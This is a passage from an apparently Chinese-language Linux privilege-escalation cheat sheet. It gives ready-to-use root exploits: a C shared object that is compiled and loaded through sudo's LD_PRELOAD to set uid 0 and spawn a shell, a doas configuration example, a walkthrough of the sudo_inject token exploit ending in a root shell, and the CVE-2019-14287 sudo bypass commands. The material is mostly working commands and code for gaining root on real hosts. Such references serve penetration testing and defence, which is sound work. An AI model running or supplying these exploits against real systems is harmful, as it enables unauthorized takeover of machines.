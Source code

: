 ```powershell
Defaults        env_keep += LD_PRELOAD
```

使用下面的C代码编译共享对象，使用`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

通过LD_PRELOAD执行任何二进制文件以生成shell：`sudo LD_PRELOAD=<full_path_to_so_file> <program>`，例如：`sudo LD_PRELOAD=/tmp/shell.so find`

### Doas

有一些替代`sudo`二进制的工具，例如OpenBSD的`doas`，记得检查其配置文件`/etc/doas.conf`

```bash
permit nopass demo as root cmd vim
```

### sudo_inject

使用[https://github.com/nongiach/sudo_inject](https://github.com/nongiach/sudo_inject)

```powershell
$ sudo whatever
[sudo] 用户密码：    
# 按<ctrl>+c，因为你没有密码。 
# 这会创建一个无效的sudo令牌。
$ sh exploit.sh
.... 等待1秒
$ sudo -i # 不需要密码 :)
# id
uid=0(root) gid=0(root) 组=0(root)
```

演示文稿的幻灯片：[https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf](https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf)

### CVE-2019-14287

```powershell
# 当用户具有以下权限时可利用（sudo -l）
(ALL, !root) ALL

# 如果你有一个完整的TTY，你可以像这样利用它
sudo -u#-1 /bin/bash
sudo -u#4294967295 id
```
